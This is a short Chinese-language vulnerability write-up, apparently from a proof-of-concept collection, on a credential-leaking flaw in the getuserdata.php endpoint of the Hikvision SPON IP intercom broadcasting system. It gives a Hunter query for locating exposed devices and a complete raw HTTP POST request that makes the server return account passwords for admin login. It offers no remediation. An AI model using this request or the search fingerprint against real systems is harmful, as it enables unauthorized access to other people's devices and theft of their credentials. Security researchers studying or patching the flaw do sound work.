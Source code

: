 # 海康威视SPON IP网络对讲广播系统getuserdata存在信息泄露漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统getuserdata存在信息泄露漏洞，攻击者可通过该漏洞在服务器端读取账户密码，从而登录后台。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/wypAhO4pJ8vtvSv5/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-817066.png)

# 四、漏洞复现
```java
POST /php/getuserdata.php HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

jsondata[pageIndex]=0&jsondata[pageCount]=30
```

![1704936814754-a5e79495-da6d-46f1-a20e-6e0045c4f7af.png](./img/wypAhO4pJ8vtvSv5/1704936814754-a5e79495-da6d-46f1-a20e-6e0045c4f7af-132521.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gb9bbzrsxkw7v8t7>